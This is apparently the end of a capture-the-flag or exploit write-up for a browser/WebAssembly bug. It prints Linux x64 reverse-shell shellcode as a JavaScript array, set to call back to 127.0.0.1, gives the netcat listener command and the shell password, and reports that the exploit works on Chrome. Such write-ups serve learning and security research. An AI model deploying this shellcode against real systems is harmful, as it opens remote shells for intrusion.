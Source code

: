 Grabbing the reverse shell code from [here](https://packetstormsecurity.com/files/160996/Linux-x64-Reverse-Shell-Shellcode.html) and modifying it slightly to change it to loopback to `127.0.0.1`:

```javascript
var shellcode = ['0x6a58296a', '0x016a5f02', '0x050f995e', '0x68525f50', '0x0100007f', '0x5c116866', '0x6a026a66', '0x5e54582a', '0x0f5a106a', '0x5e026a05', '0x0f58216a', '0xceff4805', '0x016af679', '0x50b94958', '0x77737361', '0x41203a64', '0x6a5e5451', '0x050f5a08', '0x48c03148', '0x0f08c683', '0x31b84805', '0x35343332', '0x56383736', '0x75af485f', '0x583b6a1a', '0xbb485299', '0x6e69622f', '0x68732f2f', '0x525f5453', '0x54575a54', '0x90050f5e']
```

Listening with `nc -nvlp 4444`, we get the prompt for a password, which is `12345678`. Input that, and bingo! It even works on the Chrome instance!

## Final Thoughts

First off, give [Faith](https://twitter.com/farazsth98) a follow, they deserve it.

Secondly, WASM makes no sense to me, but oh well. Sounds like a security nightmare.
